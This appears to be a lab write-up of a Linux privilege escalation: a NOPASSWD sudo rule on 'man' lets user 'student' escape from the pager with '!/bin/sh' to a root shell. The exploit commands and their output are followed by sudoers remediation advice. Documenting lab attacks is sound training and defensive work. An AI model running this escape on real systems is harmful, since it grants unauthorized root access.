





# Linux Privilege Escalation - SUDO Privileges

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** target (local shell, user `student`)

## 1. Executive Summary

A misconfigured sudo rule lets the low-privileged `student` run `/usr/bin/man` as root
without a password. Since `man` launches a pager that can execute shell commands (GTFOBins),
this yields a root shell.

## 2. Access & Enumeration

We start with a `student` shell on the target.



Checking the sudo rights.

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/man
```



## 3. Exploiting sudo man (GTFOBins)

Running `man` as root, then escaping to a shell from the pager.

```bash
sudo man man
# at the pager prompt:
!/bin/sh
```





## 4. Root

```bash
id          # uid=0(root)
sudo -l     # (ALL : ALL) ALL
```



## 5. Remediation Recommendations

1. **Remove unnecessary sudo rules** — never grant NOPASSWD on binaries with shell-escape
   features (`man`, `vi`, `less`, `find`, etc.); consult GTFOBins when writing sudoers.
2. **Apply least privilege** and require a password for sudo.
3. **Audit `/etc/sudoers`** regularly and monitor for sudo abuse.
